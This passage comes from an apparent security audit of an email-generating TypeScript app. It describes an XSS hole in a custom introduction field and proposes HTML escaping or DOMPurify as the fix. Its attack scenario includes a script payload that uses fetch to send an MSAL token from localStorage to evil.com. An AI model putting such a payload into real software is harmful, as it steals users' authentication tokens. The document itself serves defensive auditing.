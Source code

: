 ### Attack Scenario
```typescript
// Attacker enters in custom introduction field:
const malicious = `Hello team<script>
  // Steal auth tokens
  fetch('https://evil.com/steal?token=' + localStorage.getItem('msalToken'))
</script>`

// Email generated with unescaped script tag
// When recipient opens email in Outlook/Gmail, script COULD execute (if email client allows)
```

### Impact
- **Email clients**: Most modern clients block scripts, but not all
- **EmailPreview component**: Renders in iframe in our app - script WILL execute
- **Data exfiltration**: Could steal M365 tokens, database contents

### Proposed Fix

**HTML Escape Function**:
```typescript
function escapeHtml(unsafe: string): string {
  return unsafe
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;")
}

// Use it:
<p>${escapeHtml(content.customIntroduction).replace(/\n/g, '<br>')}</p>
```

**OR Use DOMPurify**:
```bash
npm install dompurify @types/dompurify
```

```typescript
import DOMPurify from 'dompurify'

// In email generator:
<p>${DOMPurify.sanitize(content.customIntroduction, { ALLOWED_TAGS: ['br'] })}</p>
```

---

## Bug #12: Incomplete Error Handling in Email Send Flow ⚠️

### Severity
**MEDIUM** - Poor UX, silent failures
